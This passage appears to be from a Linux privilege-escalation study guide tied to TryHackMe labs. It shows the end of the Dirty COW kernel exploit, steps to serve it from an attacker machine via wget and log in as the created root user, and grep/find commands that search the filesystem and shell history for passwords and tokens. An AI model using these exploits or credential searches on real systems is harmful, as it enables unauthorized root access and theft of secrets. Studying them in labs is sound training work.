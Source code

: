 ``` c
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}         
```
The exploit Dirtycow shows in the comments how to compile and run it. I recommend using `-static` flag as well to make the program portable.
The linux-exploit-suggester.sh (check my repo `hacking-tools` in `escalation` folder)can also find exploits for you and it will identify the same exploit.

If you can't download the code and exploit it on the target machine you can compile it on your machine and `scp` or start and local http server and download it with `wget` in my repo `hacking-tools` in the folder `helpers` I have a script `startHttpServer.sh` that will set up a python http server on port 8000 (or what ever port you pass to the script as an argument). Then you can download it with something like `wget http://[YOUR_IP]:8000/[NAME_OF_PROGRAM]`.  
Then run it 
``` c
./dirty [PASSWORD]
```
When you get the control back type `su firefart` or `ssh firefart@[TARGET_IP]`

## Escalation via Stored Passwords
When you get access to a machine, start looking in the history to see if it is any password used by the user. To do that use the command `history` or `less ~/.bash_history`. If you find something, try to locate where it goes and hopefully it escalates your privileges or take you some where else.

Other ways to find password can be
``` bash
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```
Try to search for other strings like PASS, PASSWD or PWD. TOKEN can also be useful.

## Escalation via Weak File Permissions
This example is from [Linux PrivEsc Arena](https://tryhackme.com/r/room/linuxprivescarena) on Try Hack Me

---

This room will teach you a variety of Linux privilege escalation tactics, including kernel exploits, sudo attacks, SUID attacks, scheduled task attacks, and more. This lab was built utilizing Sagi Shahar's privesc workshop (https://github.com/sagishahar/lpeworkshop) and utilized as part of The Cyber Mentor's Linux Privilege Escalation Udemy course (http://udemy.com/course/linux-privilege-escalation-for-beginners).
